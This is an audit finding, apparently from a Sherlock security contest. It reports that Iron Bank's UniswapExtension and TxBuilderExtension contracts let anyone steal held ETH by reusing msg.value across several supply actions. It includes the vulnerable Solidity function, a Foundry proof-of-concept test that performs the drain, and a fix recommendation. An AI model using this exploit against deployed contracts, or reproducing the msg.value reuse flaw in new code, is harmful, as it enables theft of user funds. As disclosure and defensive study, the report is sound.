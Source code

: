 shaka

high

# Ether held by `UniswapExtension` and `TxBuilderExtension` can be stolen by anyone.

## Summary

Ether held by `UniswapExtension` and `TxBuilderExtension` can be stolen by anyone. 

## Vulnerability Detail

In `UniswapExtension` and `TxBuilderExtension` the `seizeNative` function allows the owner to withdraw ETH from the contract.

However, any user can also steal all the ETH from the contract. To do so, the attacker will call `execute` with some ETH and multiple `ACTION_SUPPLY_NATIVE_TOKEN` actions. This will execute `supplyNativeToken` internal function multiple times. This function deposits `msg.value` into the `IronBank` contract. As a result, the attacker may be able to deposit `msg.value * actions.length` ETH into the `IronBank` contract and redeem the ETH later.

```solidity
460    function supplyNativeToken() internal nonReentrant {
461        WethInterface(weth).deposit{value: msg.value}();
462        IERC20(weth).safeIncreaseAllowance(address(ironBank), msg.value);
463        ironBank.supply(address(this), msg.sender, weth, msg.value);
464    }
```

## Impact

Anyone can steal all the ETH from the `UniswapExtension` and `TxBuilderExtension` contracts when only the owner should be able to withdraw ETH from the contracts.

## Code Snippet

https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/extensions/UniswapExtension.sol#L461

https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/extensions/TxBuilderExtension.sol#L253

https://github.com/sherlock-audit/2023-05-ironbank/blob/main/ib-v2/src/extensions/TxBuilderExtension.sol#L291

## Proof of concept

Test added to `TestUniswapExtension_Integration.t.sol`.
```solidity
function testStealEther() public {
    vm.deal(payable(extension), 10e18);

    uint256 poolWethBefore = IERC20(WETH).balanceOf(address(ib));
    uint256 user1EthBefore = user1.balance;
    uint256 extensionBefore = payable(address(extension)).balance;
    uint256 supplyAmount = 10e18;

    vm.prank(user1);
    UniswapExtension.Action[] memory actions = new UniswapExtension.Action[](2);
    actions[0] = UniswapExtension.Action({name: "ACTION_SUPPLY_NATIVE_TOKEN", data: bytes("")});
    actions[1] = UniswapExtension.Action({name: "ACTION_SUPPLY_NATIVE_TOKEN", data: bytes("")});
    extension.execute{value: supplyAmount}(actions);

    uint256 poolWethAfter = IERC20(WETH).balanceOf(address(ib));
    uint256 user1EthAfter = user1.balance;
    uint256 extensionAfter = payable(address(extension)).balance;
    assertEq(poolWethAfter - poolWethBefore, supplyAmount * 2);
    assertEq(user1EthBefore - user1EthAfter, supplyAmount);
    assertEq(extensionBefore - extensionAfter, supplyAmount);
}
```

## Tool used

Foundry

## Recommendation

Do not allow multiple actions that use `msg.value` in a single `execute` call or use a state variable to keep track of the ETH available to be supplied by the caller.